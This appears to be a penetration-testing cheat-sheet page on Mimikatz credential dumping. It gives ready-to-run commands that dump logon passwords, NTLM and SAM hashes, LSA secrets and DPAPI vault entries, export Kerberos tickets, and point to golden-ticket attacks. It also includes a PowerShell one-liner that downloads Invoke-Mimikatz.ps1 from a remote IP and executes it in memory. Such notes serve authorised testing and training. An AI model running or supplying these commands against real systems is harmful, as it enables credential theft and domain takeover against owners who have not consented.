

# Mimikatz

Can build from here [https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)

* After unzipping run mimikatz.exe on cmd
* one-liner:

```
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

* `privilege::debug` should result

<figure><figcaption></figcaption></figure>

* `sekurlsa::logonpasswords` or `sekurlsa::msv` gives ntlm hashes for passwords which can be passed around and also cleartext passwords sometimes
* `lsadump::lsa /inject` to get lsa passwords
* `lsadump::sam` or `lsadump::sam /patch` to dump SAM hashes
* To dump lsa secrets: `lsadump::secrets`
* `lsadump::lsa /patch` dumps local security authority logon sessions

<figure><figcaption></figcaption></figure>

* To get tickets `sekurlsa::tickets /export`
* DPAPI: `Invoke-Mimikatz -Command '"vault::list"'`
* ntds.dit file can be downloaded too
* [golden-ticket-attacks.md](../../active-directory/ad-exploitation/golden-ticket-attacks.md "mention") are also possible

## Powershell

Use [Nishang Invoke-Mimikatz.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)

```
iex (iwr -UseBasicParsing http://10.11.103.226/Invoke-Mimikatz.ps1)
```

Do this

```
Invoke-Mimikatz -Command '"token::elevate"'
```
